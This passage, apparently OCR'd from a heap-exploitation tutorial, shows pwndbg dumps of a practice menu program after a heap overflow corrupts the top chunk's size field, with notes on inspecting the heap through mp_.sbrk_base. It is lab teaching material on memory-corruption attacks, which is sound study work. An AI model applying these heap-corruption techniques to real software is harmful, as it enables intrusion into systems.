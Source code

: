 ```
0x555555757070	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757080	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757090	0x4141414141414141	0x0000000000000091	AAAAAAAA........
0x5555557570a0	0x0000000000000000	0x0000000000000000	................
0x5555557570b0	0x0000000000000000	0x0000000000000000	................
0x5555557570c0	0x0000000000000000	0x0000000000000000	................
0x5555557570d0	0x0000000000000000	0x0000000000000000	................
0x5555557570e0	0x0000000000000000	0x0000000000000000	................
0x5555557570f0	0x0000000000000000	0x0000000000000000	................
0x555555757100	0x0000000000000000	0x0000000000000000	................
0x555555757110	0x0000000000000000	0x0000000000000000	................
0x555555757120	0x0000000000000000	0x0000000a414140b1	.........@AA....	 <-- Top chunk

```

Now shows us what we'd expect, two 0x90-sized chunks followed by a now corrupted top chunk 

```
pwndbg> c
Continuando.
2
index: 0
data: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

1) malloc 2/2
2) edit
3) free
4) quit
> 
1) malloc 2/2
2) edit
3) free 
4) quit
> ^C

```

This time we need to use the dq command to inspect the heap because the corrupt size field will confuse the 'vis' command.

The 'mp_' struct is used by malloc to hold a small amount of its parameter data.

For now , we'll use its 'sbrk_base' member as a quick way to find the start of the defaukt heap where we'll print 38 quadwords of memory.


```
pwndbg> dq mp_.sbrk_base 38
0000555555757000     0000000000000000 0000000000000091
0000555555757010     4141414141414141 4141414141414141
0000555555757020     4141414141414141 4141414141414141
0000555555757030     4141414141414141 4141414141414141
0000555555757040     4141414141414141 4141414141414141
0000555555757050     4141414141414141 4141414141414141
0000555555757060     4141414141414141 4141414141414141
0000555555757070     4141414141414141 4141414141414141
0000555555757080     4141414141414141 4141414141414141
0000555555757090     4141414141414141 4141414141414141
00005555557570a0     0000000000000000 0000000000000000
00005555557570b0     0000000000000000 0000000000000000
00005555557570c0     0000000000000000 0000000000000000
00005555557570d0     0000000000000000 0000000000000000
00005555557570e0     0000000000000000 0000000000000000
00005555557570f0     0000000000000000 0000000000000000
0000555555757100     0000000000000000 0000000000000000
0000555555757110     0000000000000000 0000000000000000
```